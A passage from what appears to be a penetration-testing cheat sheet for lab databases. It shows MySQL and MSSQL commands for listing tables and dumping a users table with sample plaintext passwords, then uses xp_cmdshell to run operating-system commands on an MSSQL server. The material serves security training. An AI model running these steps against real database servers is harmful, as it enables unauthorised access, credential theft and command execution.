 #### Select Database
```sql
-- MySQL
USE htbusers;

-- MSSQL
USE htbusers
GO
```

#### Show Tables
```sql
-- MySQL
SHOW TABLES;

-- MSSQL
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
GO
```

#### Extract Table Data
```sql
-- Universal SQL
SELECT * FROM users;

-- Example output
+----+---------------+------------+---------------------+
| id | username      | password   | date_of_joining     |
+----+---------------+------------+---------------------+
|  1 | admin         | p@ssw0rd   | 2020-07-02 00:00:00 |
|  2 | administrator | adm1n_p@ss | 2020-07-02 11:30:50 |
|  3 | john          | john123!   | 2020-07-02 11:47:16 |
+----+---------------+------------+---------------------+
```

---

## 💻 Command Execution Techniques

### 1. MSSQL Command Execution

#### xp_cmdshell Usage
```sql
-- Execute system commands
xp_cmdshell 'whoami'
GO

-- Expected output
output
-----------------------------
nt service\mssql$sqlexpress
NULL
```
